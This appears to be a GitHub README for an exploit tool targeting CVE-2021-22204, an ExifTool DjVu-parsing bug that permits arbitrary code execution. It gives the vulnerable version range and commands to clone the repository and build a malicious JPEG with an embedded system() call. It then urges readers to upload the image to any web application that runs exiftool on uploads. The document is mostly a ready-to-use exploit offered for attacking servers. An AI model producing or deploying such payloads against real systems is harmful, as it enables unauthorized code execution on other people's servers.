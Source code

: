 # JPEG_RCE
Exiftool bug which leads to RCE </br></br>
***CVE-2021-22204 - RCE***

</br>
*REFFERENCE*
 
</br>Related hackerone report : https://hackerone.com/reports/1154542 </br>

*VULNERABILITY*

ExifTool 7.44 to 12.23 has a bug in the DjVu module which allows for arbitrary code execution when parsing malicious images.</br>

*REQUIREMENTS*

if you are using other image ,it should be a valid jpeg/jpg file </br>
You can check that with exiftool 
</br>
The meta-data should be : 
<br>
`MIME Type                       : image/jpeg"`
</br>
</br>
*EXPLOIT VECTOR*

If the web application has a feature of uploading image and if the application is parsing the metadata of the uploaded image file using exiftool, you can always give a try with this exploit </br>
</br>
*NOTE*

The exiftool version should be between  7.44 to 12.23. </br>
</br>
*COMMAND (exploit)* 

`git clone https://github.com/OneSecCyber/JPEG_RCE.git`
</br> 
</br> `cd JPEG_RCE`
</br>
<br> `exiftool -config eval.config runme.jpg -eval='system("ls -la")'`
</br>
<br>
It will create malicious jpg file </br>
Upload the file or run the file in you local system to see the magic.. 
</br>
<br>
`exiftool runme.jpg `
</br>
<br>
*POC*

![Watch the video](https://github.com/OneSecCyber/JPEG_RCE/blob/main/POC.mp4)

</br>



